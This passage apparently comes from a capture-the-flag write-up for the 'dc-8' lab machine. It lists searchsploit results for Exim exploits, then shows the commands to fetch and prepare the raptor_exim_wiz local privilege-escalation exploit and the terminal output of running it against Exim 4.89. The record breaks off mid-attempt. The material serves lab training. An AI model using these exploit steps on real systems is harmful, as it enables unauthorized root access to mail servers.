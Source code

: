 ~~~
Exim 4.87 / 4.91 - Local Privilege Escalation (Metasploit)                         | linux/local/47307.rb
Exim 4.87 < 4.91 - (Local / Remote) Command Execution                              | linux/remote/46974.txt
Exim 4.89 - 'BDAT' Denial of Service                                               | multiple/dos/43184.txt
exim 4.90 - Remote Code Execution                                                  | linux/remote/45671.py
Exim < 4.86.2 - Local Privilege Escalation                                         | linux/local/39549.txt
Exim < 4.90.1 - 'base64d' Remote Code Execution                                    | linux/remote/44571.py
Exim Buffer 1.6.2/1.6.51 - Local Overflow                                          | unix/local/20333.c
Exim ESMTP 4.80 - glibc gethostbyname Denial of Service                            | linux/dos/35951.py
Exim Internet Mailer 3.35/3.36/4.10 - Format String                                | linux/local/22066.c
Exim Sender 3.35 - Verification Remote Stack Buffer Overrun                        | linux/remote/24093.c
Exim4 < 4.69 - string_format Function Heap Buffer Overflow (Metasploit)            | linux/remote/16925.rb
PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution                           | php/webapps/42221.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
~~~

## Exploit

## Download

Let's download one of them (notice that we'll use `dos2unix` to get rid of the annoying `^M` issue, because the exploit has been written on a Windows editor, which will make the exploit fail on the Linux target).

~~~
$ searchsploit -m 46996
$ dos2unix raptor_exim_wiz 
$ python3 -m http.server
~~~

## The setuid method

The first method doesn't work:

~~~
www-data@dc-8:/tmp$ ./raptor_exim_wiz -m setuid
./raptor_exim_wiz -m setuid

raptor_exim_wiz - "The Return of the WIZard" LPE exploit
Copyright (c) 2019 Marco Ivaldi <raptor@0xdeadbeef.info>

Preparing setuid shell helper...
Problems compiling setuid shell helper, check your gcc.
Falling back to the /bin/sh method.

Delivering setuid payload...
220 dc-8 ESMTP Exim 4.89 Mon, 12 Oct 2020 04:27:46 +1000
250 dc-8 Hello localhost [::1]
250 OK
250 Accepted
~~~
